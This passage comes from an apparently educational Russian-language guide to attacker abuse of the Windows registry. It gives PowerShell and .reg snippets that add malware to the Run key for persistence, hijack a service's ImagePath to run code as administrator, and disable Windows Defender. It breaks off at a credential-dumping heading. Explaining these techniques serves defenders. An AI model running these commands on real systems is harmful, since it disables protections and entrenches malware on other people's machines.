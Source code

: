 - **PowerShell-скрипт для добавления программы в автозагрузку:**
  ```powershell
  Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "MalwareExample" -Value "C:\Path\To\Malware.exe"
  ```

- **Цель:** Обеспечить автоматический запуск вредоносного ПО при входе пользователя в систему.

## 2. Privilege Escalation (эскалация привилегий)

Изменение настроек служб через реестр позволяет злоумышленникам выполнять код с правами администратора.

- **Пример изменения службы для выполнения вредоносного кода:**
  ```reg
  Windows Registry Editor Version 5.00

  [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\VulnerableService]
  "ImagePath"="C:\\Path\\To\\Malware.exe"
  ```

- **PowerShell-скрипт для изменения пути службы:**
  ```powershell
  Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\VulnerableService" -Name "ImagePath" -Value "C:\Path\To\Malware.exe"
  ```

- **Цель:** Заменить исполняемый файл службы на вредоносный, чтобы он запускался с правами администратора.

## 3. Defense Evasion (уклонение от защиты)

Отключение защитных механизмов через реестр позволяет злоумышленникам обойти встроенные средства безопасности Windows.

- **Пример отключения Windows Defender:**
  ```reg
  Windows Registry Editor Version 5.00

  [HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows Defender]
  "DisableAntiSpyware"=dword:00000001
  ```

- **PowerShell-скрипт для отключения Windows Defender:**
  ```powershell
  Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender" -Name "DisableAntiSpyware" -Value 1
  ```

- **Цель:** Отключить встроенный антивирус Windows, чтобы избежать обнаружения вредоносного ПО.

## 4. Credential Dumping (извлечение учетных данных)

Изменение настроек реестра может позволить злоумышленникам получить доступ к хранилищам паролей, таким как SAM (Security Account Manager).
